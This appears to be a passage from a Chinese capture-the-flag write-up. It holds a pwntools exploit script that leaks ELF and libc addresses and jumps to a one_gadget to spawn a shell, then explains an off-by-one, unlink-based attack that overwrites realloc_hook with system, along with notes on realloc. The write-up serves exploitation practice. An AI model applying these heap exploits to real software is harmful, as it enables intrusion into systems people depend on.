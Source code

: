 ```
    raw_input()

elf = ELF('./opm')
#one_gadget = 0x45216 0x4526a 0xf02a4 0xf1147

#step 1 leak elf_base
add('a' * 0x30 , 0x10)
add('b' * 0x30 , 0x20)
add('c' , 0x30)
add('d' * 0x80 + '\x63' , 0x40)
debug()
add('e' * 0x80 + '\x54' , '1' * 0x80 + '\x63')
#use 0054 + 0x10 (v6 -> length) to make a d00  ,  change 0054 to 0063 to point d00
elf.address = u64(p.recvuntil('>')[1:-1] + '\x00' * 2) - 0xb30
success('elf_base => ' + hex(elf.address))

#step 2 use f00 to leak libc_base
atoi_got = elf.got['atoi']
success('atoi_got => ' + hex(atoi_got))
add('f' * 8 + p64(atoi_got) , 0x50)
add('g'  , 'g' * 0x80)
libc.address = u64(p.recvuntil('>')[1:-1] + '\x00' * 2) - libc.symbols['atoi']
success('libc_base => ' + hex(libc.address))

#step 3 use 000 and show() to trigger one_gadget
one_gadget = libc.address + 0x4526a
add('h' * 0x60 + p64(one_gadget), '')
add('i' * 0x80 , '')
show()

#debug()
p.interactive()
```

### note
漏洞位置
该程序为socket程序，绑定为1234端口，需要系统有note的用户权限。程序在change_title的功能中存在off_by_one漏洞。

![](https://ae01.alicdn.com/kf/H6941cd29e25145899c2ee4d35da174d9O.png)

不过由于前面check_asc()中的限制，导致只能用0x0a、0x21、0x22、0x23、0x26、0x27、0x3F、0x40这几个规定内的字节进行溢出。

![](https://ae01.alicdn.com/kf/H73c231b4aa7b411fa7e7e20ed1563c8cV.png)

利用思路
题目限制只能realloc3次，利用0x40进行off_by_one并布置unlink环境，在此之前应该首先利用change_content功能构造好满足0x40大小的下一个chunk head。由于0x40大小的堆块在fastbin的范围内，无法直接free触发unlink，于是第二次realloc将该chunk放入fastbin中，在第三次realloc时触发malloc_consolidate进行unlink。unlink后，使.bss上的title指向comment指针，再配合change_comment功能，实现任意地址写，最终采用写realloc_hook为system的方法get shell。(不知道是否本地环境的问题，一开始就能直接leak libc)

>realloc
函数原型为realloc(ptr, size)，其中ptr为指向堆的指针，size为需要realloc的大小，根据size的大小有以下几种情况：
+ size = 0时，相当于free(ptr)。
+ size < ptr原大小时，会将原chunk分割为两部分，free掉后面的chunk。
+ size = ptr原大小时，没什么卵用，不会进行任何操作。注：该等于为将size对齐后相等。
+ size > ptr原大小时，若ptr下方为top chunk或者下方存在fastbin之外的free chunk并且size(free chunk) + size(ptr原大小) ≥ size，则将该堆块大小扩展至size，若不满足上述条件，则相当于free(ptr)然后malloc(size)。
